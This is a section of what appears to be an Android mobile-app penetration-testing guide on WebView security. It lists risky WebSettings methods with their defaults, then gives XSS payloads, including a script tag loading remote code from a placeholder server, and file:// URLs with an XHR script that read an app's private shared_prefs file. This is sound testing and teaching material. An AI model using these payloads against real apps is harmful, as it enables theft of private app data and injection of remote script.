 ## 7. WebViews

Unless there is an explicit need, WebView URLs should not be user-controlled, e.g., through intents.

WebViews can easily lead to cross-site scripting (XSS), arbitrary file read/write, data leakage and exfiltration, remote code execute (RCE), etc.

Things to look for in the source code:
* [WebView](https://developer.android.com/reference/android/webkit/WebView)
* [setJavaScriptEnabled](https://developer.android.com/reference/android/webkit/WebSettings#setJavaScriptEnabled\(boolean\))
    * default: `false`
* [setAllowFileAccess](https://developer.android.com/reference/android/webkit/WebSettings#setAllowFileAccess\(boolean\))
    * default: `false` on Android OS v11.0+ and API v30+
* [setAllowUniversalAccessFromFileURLs](https://developer.android.com/reference/android/webkit/WebSettings#setAllowUniversalAccessFromFileURLs\(boolean\))
    * default: `false` on Android OS v4.1+ and API v16+
* [setAllowFileAccessFromFileURLs](https://developer.android.com/reference/android/webkit/WebSettings#setAllowFileAccessFromFileURLs\(boolean\))
    * default: `false` on Android OS v4.1+ and API v16+
    * value is ignored if `getAllowUniversalAccessFromFileURLs` is `true`
* [addJavascriptInterface](https://developer.android.com/reference/android/webkit/WebView#addJavascriptInterface\(java.lang.Object,%20java.lang.String\))
    * default: only public methods annotated with `@JavascriptInterface` on Android OS v4.2+ and API v17+ can be added; otherwise, all public methods (including inherited ones) can be added
* [loadUrl](https://developer.android.com/reference/android/webkit/WebView#loadUrl\(java.lang.String\))

Simple cross-site scripting (XSS) payloads:

```html
javascript:alert(1)

<script>alert(1)</script>

<script>alert(someJavaScriptBridge.someMethod())</script>

<script src="https://myserver.com/xss.js"></script>

<img src="https://github.com/favicon.ico" onload="alert(1)">
```

Arbitrary file read using the `file://` URL scheme:

```fundamental
file:///data/data/com.someapp.dev/shared_prefs/somefile.xml
```

Arbitrary file read using a cross-site scripting (XSS):

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "file:///data/data/com.someapp.dev/shared_prefs/somefile.xml", true); // async
    xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
            alert(xhr.responseText); // for demonstration purposes
        }
    }
    xhr.send();
</script>
```
